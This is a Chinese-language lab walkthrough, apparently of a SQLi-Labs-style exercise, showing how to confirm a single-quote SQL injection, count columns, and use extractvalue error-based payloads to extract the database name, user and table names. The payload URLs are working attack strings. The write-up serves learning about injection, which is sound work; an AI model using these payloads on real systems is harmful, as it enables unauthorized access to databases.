 由报错信息可知该SQL语句出错在`...id='1' and 1=1' limit 0,1`

根据以上报错信息推测原SQL语句对于传递的id参数使用**单引号**闭合

接下来针对单引号闭合构造对应注入语句，使得SQL语句中的单引号闭合即可即有意使前后单引号都和传递的参数中的引号闭合

```sql
?id=1' and '1'='1  
```

可以看到SQL语句成功执行

![](https://img.yatjay.top/md/202203251643210.png)

构造报错语句检测注入点存在：可见语句成功执行了，确实存在注入点

![](https://img.yatjay.top/md/202203251643833.png)

爆字段数，注意使用`order by`时无法闭合原SQL语句中的后单引号，因此需要将后单引号以及后面全注释掉

由此可知查询结果包含3个字段即3列

![](https://img.yatjay.top/md/202203251643756.png)

![](https://img.yatjay.top/md/202203251643195.png)

爆输出位置，注意本题没有回显，即使联合查询`union select 1,2,3`，也不会回显输出

![](https://img.yatjay.top/md/202203251643267.png)

因此使用**报错注入**，即页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql_error()。这会在后续学习。

此处我们使用`and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`进行报错注入

爆库名 

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select database()),0x7e)));--+
```

得到数据库名为security

![](https://img.yatjay.top/md/202203251643700.png)

爆用户名 `?id=-1' and (extractvalue(1,concat(0x7e,(select user()),0x7e)));--+`

![](https://img.yatjay.top/md/202203251643374.png)

爆表名 

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)))--+ 
```

 并且使用limit对多条结果进行依次输出

得到数据库security数据库中的数据表名分别是emails、referers、uagents、users 

![](https://img.yatjay.top/md/202203251643689.png)
